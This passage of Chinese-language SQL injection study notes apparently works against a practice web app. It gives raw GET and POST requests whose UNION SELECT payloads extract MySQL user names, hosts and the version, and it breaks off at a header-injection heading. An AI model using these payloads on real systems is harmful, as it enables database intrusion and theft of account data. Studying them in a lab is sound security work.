 ```
# get请求参数是拼接在url后面

GET http://x.xxx.xxx.xxx:8080/sqli_1.php?title=1 union select 1,user,version(),4,host,6,7 from mysql.user limit 2,3 -- &action=search HTTP/1.1

title=1 union select 1,user,version(),4,host,6,7 from mysql.user limit 2,3 -- &action=search HTTP/1.1

Host: x.xxx.xxx.xxx:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://8.142.109.131:8080/sqli_1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```







## POST注入

```
# post请求参数是放在请求的body中进行传递

POST http://x.xxx.xxx.xxx:8080/sqli_13.php HTTP/1.1
Host: x.xxx.xxx.xxx:8080
Connection: keep-alive
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://8.142.109.131:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://8.142.109.131:8080/sqli_13.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

​
movie=1 union select 1,user,version(),4,host,6,7 from mysql.user limit 2,3 --&action=go
```





## HTTP头注入
